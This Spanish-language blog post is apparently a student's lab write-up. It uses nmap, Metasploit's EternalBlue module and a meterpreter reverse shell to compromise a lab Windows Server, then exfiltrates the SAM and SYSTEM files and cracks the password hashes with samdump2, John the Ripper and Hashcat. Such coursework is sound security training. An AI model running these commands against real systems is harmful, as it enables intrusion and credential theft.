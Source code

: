```yaml
---
title: PRÁCTICA 01
date: 2024-10-11 00:00:00 -05:00
categories: [Ciberseguridad, Seguridad Informática]
tags: [Kill Chain, Reconnaissance, Weaponization, Exploitation, SSH]  # TAG names should always be lowercase
---
```


En este post, vamos a explicar los pasos realizados en el laboratorio, y responder las siguientes preguntas relacionadas a cada paso.

# 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos) 

nmap -p 139,445 --script smb-protocols 10.0.2.4

![alt text](/assets/images/1.png)

### Explicación:
•	Los puertos 139 y 445 están asociados con el servicio SMB en Windows. Usamos el flag --script smb-protocols de Nmap para enumerar las versiones de los protocolos SMB que están habilitados.
•	En los resultados, se muestra que NT LM 0.12 (SMBv1) está habilitado en la máquina Windows Server (10.0.2.4), lo cual es vulnerable.


# 2.2. Exploración de la Vulnerabilidad 

Uso del exploit exploit/windows/smb/ms17_010_eternalblue en Metasploit:

•	EternalBlue (MS17-010) explota una vulnerabilidad en SMBv1, permitiendo ejecución remota de código en sistemas sin parchar, como Windows Server 2008 R2.
•	Este exploit es ideal para esta tarea ya que se enfoca en SMBv1, lo que nos permite ejecutar código y obtener una conexión remota con el servidor si tiene SMBv1 activo y es vulnerable a EternalBlue.

# 2.3. Configuración del Exploit en el Framework Metasploit

1.	Inicia Metasploit:
msfconsole
2.	Selecciona el módulo de EternalBlue:
use exploit/windows/smb/ms17_010_eternalblue
3.	Configura los parámetros necesarios:

   
![alt text](/assets/images/2.png)
### Explicación de los parámetros:
•	RHOSTS (Remote Host): IP de la máquina objetivo (Windows Server 10.0.2.4). Indica a Metasploit dónde dirigir el ataque.
•	LHOST (Local Host): IP de la máquina atacante (Kali Linux 10.0.2.9). Es necesario para recibir la conexión de vuelta (reverse shell).
•	PAYLOAD: windows/x64/meterpreter/reverse_tcp crea un payload de reverse shell que te permitirá obtener acceso remoto y control sobre la máquina víctima.


# 2.4. Ejecución del Exploit (2 puntos)

Comando para ejecutar el exploit:
exploit
Confirmación de éxito:

![alt text](/assets/images/3.png)

### Explicación de los parámetros:
•	El exploit se ejecuta correctamente, mensaje en Metasploit Meterpreter session X opened.
•	Este mensaje confirma que se ha establecido una conexión con la máquina objetivo (Windows Server 10.0.2.4) y ahora se tiene una sesión interactiva.


# 2.5. Exfiltración de Archivos SAM y SYSTEM 

Pasos para exfiltrar los archivos:
Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs

![alt text](/assets/images/4.png)

Copia los archivos SAM y SYSTEM desde la copia de volumen de sombra:
![alt text](/assets/images/5.png)

Descarga los archivos a tu máquina atacante:
    download C:\Windows\Temp\SAM /ruta/en/Kali/SAM
    download C:\Windows\Temp\SYSTEM /ruta/en/Kali/SYSTEM


# 2.6. Análisis de los Archivos Exfiltrados 

### Extracción de hashes de contraseñas en Kali Linux:
1.	Usa samdump2 para extraer los hashes de los archivos SAM y SYSTEM:
samdump2 /ruta/en/Kali/SYSTEM /ruta/en/Kali/SAM > hashes.txt
2.	Con los hashes en hashes.txt, intenta descifrarlos con John the Ripper:
john --format=NT hashes.txt
o	O bien, usa Hashcat para realizar un ataque con GPU:
hashcat -m 1000 hashes.txt /ruta/a/wordlist

Explicación:
•	Samdump2 extrae los hashes de los archivos SAM y SYSTEM, que son esenciales para intentar descifrar las contraseñas de los usuarios.
•	John the Ripper y Hashcat permiten descifrar los hashes mediante ataques de diccionario o fuerza bruta.

